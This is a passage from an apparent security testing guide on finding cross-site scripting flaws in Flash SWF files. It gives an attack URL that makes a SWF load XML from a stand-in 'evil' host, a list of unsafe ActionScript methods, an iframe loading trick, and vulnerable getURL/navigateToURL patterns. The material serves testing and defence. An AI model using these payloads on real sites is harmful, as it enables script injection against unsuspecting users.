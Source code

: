 
The above code could be attacked by requesting:

```
 http://victim/file.swf?language=http://evil.example.org/malicious.xml?
```


### Unsafe Methods
When an entry point is identified, the data it represents could be used by unsafe methods. If the data is not filtered/validated using the right regexp it could lead to some security issue.


Unsafe Methods since version r47 are:
```
loadVariables()
loadMovie()
getURL()
loadMovie()
loadMovieNum()
FScrollPane.loadScrollContent()
LoadVars.load
LoadVars.send
XML.load ( 'url' )
LoadVars.load ( 'url' )
Sound.loadSound( 'url' , isStreaming );
NetStream.play( 'url' );

flash.external.ExternalInterface.call(_root.callback)

htmlText
```


### The Test
In order to exploit a vulnerability, the swf file should be hosted on the victim's host, and the techniques of reflected XSS must be used. That is forcing the browser to load a pure swf file directly in the location bar (by redirection or social engineering) or by loading it through an iframe from an evil page:
```
 <iframe src='http://victim/path/to/file.swf'></iframe>
```
This is because in this situation the browser will self-generate an HTML page as if it were hosted by the victim host.


### XSS

**GetURL (AS2) / NavigateToURL (AS3):**

The GetURL function in ActionScript 2.0 and NavigateToURL in ActionScript 3.0 lets the movie load a URI into the browser's window.


So if an undefined variable is used as the first argument for getURL:
```
 getURL(_root.URI,'_targetFrame');
```
Or if a FlashVar is used as the parameter that is passed to a navigateToURL function:
```
 var request:URLRequest = new URLRequest(FlashVarSuppliedURL);
 navigateToURL(request);
```
